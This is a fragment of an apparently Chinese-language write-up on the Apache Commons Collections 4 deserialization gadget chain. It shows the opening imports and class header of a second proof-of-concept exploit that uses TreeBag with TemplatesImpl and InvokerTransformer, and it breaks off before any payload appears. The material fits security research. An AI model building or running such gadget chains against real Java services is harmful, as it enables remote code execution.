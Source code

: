 ```java
        }
    }
}
```
<img src="./images/9.png" alt="">

## POC-2
> 相较于`POC-1`，这里使用`TreeBag`和`TreeMap`来替代`PriorityQueue`进行构造

```java
package CommonsCollections4;

import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TrAXFilter;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import javassist.*;
import org.apache.commons.collections4.Transformer;
import org.apache.commons.collections4.bag.TreeBag;
import org.apache.commons.collections4.comparators.TransformingComparator;
import org.apache.commons.collections4.functors.ChainedTransformer;
import org.apache.commons.collections4.functors.ConstantTransformer;
import org.apache.commons.collections4.functors.InstantiateTransformer;
import org.apache.commons.collections4.functors.InvokerTransformer;

import javax.xml.transform.Templates;
import java.io.*;
import java.lang.reflect.Field;
import java.util.PriorityQueue;

/**
 * @Author: H3rmesk1t
 * @Data: 2021/11/30 11:26 上午
 */
public class CommonsCollectionsTreeBag {

    public static void CC4() throws NotFoundException, CannotCompileException, IOException, NoSuchFieldException, IllegalAccessException, ClassNotFoundException {
        ClassPool pool = ClassPool.getDefault();
```